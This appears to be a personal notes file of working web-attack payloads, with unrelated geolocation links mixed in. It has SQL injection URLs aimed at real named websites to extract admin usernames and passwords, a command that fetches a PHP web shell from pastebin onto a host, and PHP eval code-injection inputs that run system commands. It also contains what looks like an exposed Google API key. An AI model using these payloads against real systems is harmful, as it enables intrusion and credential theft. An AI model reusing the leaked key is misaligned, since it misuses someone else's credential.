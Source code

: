 
http://studentvote.ca/2011/results/index.php?id=-1 /*!50000UNION*/ SELECT 1111,22222,/*!50000Group_cOncat(adminuser,'==>',password,'<br/>')*/ ,444,555,666 from election09_admin where table_schema='votee_studentvotesDB'--+

`dbname`.`admin`


//Access Denied
http://www.adopfrance.fr/gb/galerie/index.php?id=3 and (select 1 from(select count(*),concat((select (select concat(0x7e,0x27,cast(version() as char),0x27,0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1




https://stackoverflow.com/questions/16963413/regarding-google-places-api

https://addons.mozilla.org/en-US/firefox/addon/geolocation/


Google place api key ==> AIzaSyC2hmb2Eo-XmZgfJbpKv-hKThIUkZi_AEw


Google place reference Document ==> 
https://developers.google.com/maps/documentation/javascript/places

Concept of lat long
https://www.geovista.psu.edu/grants/MapStatsKids/New_MSK/concepts_latlg.html
https://www.geovista.psu.edu/grants/MapStatsKids/MSK_portal/concepts_latlg.html
http://whatis.techtarget.com/definition/latitude-and-longitude


http://192.168.0.100/bd.php?cmd=cd aa;curl https://pastebin.com/raw/yqdVDNFw -O lol1.php
http://192.168.0.100/bd.php?cmd=cd aa;mv yqdVDNFw AungShell.php



Time base
and sleep(6)

Code Injection
php ==> eval() ==> accept any string and can convert function


http://192.168.0.115/codeexec/example1.php?name=hacker"
showing that syntax error , parse error php file is used eval() function  
//Example ==> $input = "hacker" ";	
Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/codeexec/example1.php(6) : eval()'d code on line 1 

http://192.168.0.115/codeexec/example1.php?name=hacker";//
//Example ==> $input = "hacker";// ";	


http://192.168.0.115/codeexec/example1.php?name=hacker";phpinfo();//
//Example ==> $input = "hacker";phpinfo();// ";	

http://192.168.0.115/codeexec/example1.php?name=hacker".system('ls')."
//Example ==> $input = "hacker".system('ls')."  ";	

input = 'hacker'.phpinfo() ;// ';
http://192.168.0.115/codeexec/example4.php?name=hackervvxv'.phpinfo();// 
